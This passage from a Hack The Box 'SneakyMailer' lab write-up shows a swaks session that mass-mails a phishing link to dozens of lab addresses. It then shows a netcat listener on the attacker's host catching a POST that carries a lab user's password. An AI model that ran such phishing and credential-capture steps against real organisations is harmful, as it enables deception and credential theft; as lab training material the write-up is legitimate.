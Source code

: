 ```bash
 -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sneakymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsilva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sneakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@sneakymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothymooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zenaidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.htb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
 -> From: test@sneakymailer.htb
 -> Subject: test
 -> Message-Id: <20210923113125.048831@KaliVM>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.16.6/
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as EB70624667
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

I just sent an email with a link to myself. I opened up a netcat listener on port 80 to catch all requests (and because it shows more details than the simple http python web server):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ nc -lvnp 80          
listening on [any] 80 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.197] 40254
POST / HTTP/1.1
Host: 10.10.16.6
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
